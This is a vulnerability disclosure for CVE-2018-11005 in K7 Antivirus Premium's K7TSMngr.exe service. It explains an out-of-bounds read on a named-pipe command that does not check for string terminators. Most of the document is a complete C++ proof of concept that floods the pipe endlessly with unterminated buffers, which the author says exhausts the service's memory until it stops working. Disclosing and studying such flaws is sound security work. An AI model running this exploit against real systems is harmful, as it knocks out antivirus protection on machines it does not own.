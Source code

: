 # CVE-2018-11005

# Product / Component Affected

* **Product**: *K7 Antivirus Premium 16.0.0.0* 
* **Component**: *K7TSMngr.exe 16.0.0.70*
  * SHA256: E6655EBC79644E7DB6FC36B2D98DE88A9635F47B3ADF1D834FD357D5EA3E15A6

# K7TSMngr.exe Pipe Handler Background
*See description in [CVE-2018-8724](../CVE-2018-8724/readme.md)*

# Details
Using the named pipe \\\\.\\pipe\\K7TSMngrService1 and the function code 0x1003E, many of the commands **assume** there is a string following the 4 byte command/action and call *lstrlenA* on it. However, there is no check in place to verify this. Therefore you can pass in a command buffer without any zero terminators in and it will read off the end, potentially causing a crash of the service. The PoC code would have demonstrated this, however there is also a memory leak in the service and the PoC just causes the service to consume memory until it stops working! :(

```C++
typedef struct _unk_1003E
{
    DWORD dwAction;
    CHAR szSomething[256];  // This can be any length up to 0x8000 - 4
}


// sub_40CC40 snippet...

if ( (unsigned int)dwInSize < 4 || (unsigned int)dwInSize > 0x8000 )
    return 0;
dwCode = pInput->dwAction;
pszInputString = pInput->szSomething;
if ( pInput->dwAction == 'RMOV' )
{
    pszSource = pInput->szSomething;

    // VULN: pInput is the buffer I supply and szSomething is +4 into that. If I don't put a zero 
    // terminator on that string it is an out-of-bounds read. This could cause an access violation
    // crashing the service (which is useful for another bug), or potentially if it doesn't crash
    // could use other parts of the heap as part of a registry key, etc. There are a few options
    pszDest = &pszInputString[lstrlenA(pInput->szSomething) + 1];   

    // VULN: Same as above
    pInput = *(unk_1003E **)&pszDest[lstrlenA(pszDest) + 1];
    dwInSize = 0;
```
    

# PoC Code
```C++
#include <Windows.h>
#include <stdio.h>

/////////////////////////////////////
// Common code to talk to the Pipe //
/////////////////////////////////////
typedef struct _unk1
{
	DWORD dwMagic;
	DWORD dwSomeMagic;
	DWORD dwInSize;
	DWORD field_c;
	DWORD dwFunctionId;
	DWORD dwInputDataSize;
	DWORD dwOutputDataSize;
} unk1;

HANDLE g_hPipe = INVALID_HANDLE_VALUE;

BOOL InitPipe()
{
	g_hPipe = CreateFileA("\\\\.\\pipe\\K7TSMngrService1", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (g_hPipe == INVALID_HANDLE_VALUE)
	{
		printf("CreateFileW Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	return TRUE;
}

BOOL CallPipeFunction(DWORD dwFunctionId, PBYTE pInput, DWORD dwInSize, PBYTE pOutput, DWORD dwOutSize)
{
	if (g_hPipe == INVALID_HANDLE_VALUE)
	{
		if (!InitPipe())
		{
			return FALSE;
		}
	}

	unk1 u1 = { 0 };
	u1.dwMagic = 0x4B375453;
	u1.dwSomeMagic = 0x1010;
	u1.dwInSize = 28;
	u1.dwFunctionId = dwFunctionId;
	u1.dwInputDataSize = dwInSize;

	DWORD dwBytesWritten = 0;
	if (!WriteFile(g_hPipe, &u1, sizeof(u1), &dwBytesWritten, NULL))
	{
		printf("WriteFile 1 Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	if (!WriteFile(g_hPipe, pInput, dwInSize, &dwBytesWritten, NULL))
	{
		printf("WriteFile 2 Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	return TRUE;
}

PVOID AllocPrecise(DWORD dwSize)
{
	DWORD dwPageSize = ((dwSize + 4096 - 1) / 4096) * 4096;
	PBYTE pOffset = (PBYTE)VirtualAlloc(NULL, dwPageSize, MEM_COMMIT, PAGE_READWRITE);

	if (dwSize % 0x1000 == 0)
	{
		return pOffset;
	}
	pOffset += 4096 - (dwSize % 4096);
	return pOffset;
}
/////////////////////////////
// End of common pipe code //
/////////////////////////////

//
// Vulnerability:
//		Type: 
//			Out of Bounds Read, leading to a likely DoS
//
//		Description:
//			The general form of the put buffer is <4 Byte Id><Zero Terminated String>x2
//			However, there are no actual checks that there is a zero terminator within
//			the length of the buffer. Therefore it is easy to just send through a load
//			of buffers without any zeroes and when the services performs
//
//		Result:
//			While you can see an over-read happning, and it reading into the next heap entry
//			this PoC doesn't actually cause a crash regularly because of a memory leak in
//			the service. Specifically when you handle a Pipe Message, you allocate some
//			memory from the heap, but you don't appear to free that up everywhere. So 
//			spamming it with loads of requests, just eats up RAM until the process fails.
//
void Vuln_CodeFlaw_BufferOverReadExample()
{
	srand(0);

	// Hammer it :)
	while (TRUE)
	{
		// Action 'RMOV' 
		DWORD dwAction = 0x524D4F56;

		DWORD dwSize = rand() % 0x8000;
		if (dwSize < 4)
		{
			dwSize += 4;
		}
		PVOID pData = AllocPrecise(dwSize);

		memset(pData, 'A', dwSize);
		memcpy(pData, &dwAction, 4);

		// Setup our pipe connection
		if (!InitPipe())
		{
			printf("Error: InitPipe failed\r\n");
			VirtualFree(pData, 0, MEM_RELEASE);
			continue;
		}

		// This will trigger an over-read of the buffer.
		if (!CallPipeFunction(0x1003E, (PBYTE)pData, dwSize, NULL, 0))
		{
			printf("Error: CallPipeFunction failed");
			VirtualFree(pData, 0, MEM_RELEASE);
			continue;
		}

		VirtualFree(pData, 0, MEM_RELEASE);

		if (g_hPipe != INVALID_HANDLE_VALUE)
		{
			CloseHandle(g_hPipe);
			g_hPipe = INVALID_HANDLE_VALUE;
		}
	}
}


int main(int argc, char** argv)
{
	Vuln_CodeFlaw_BufferOverReadExample();
}


```

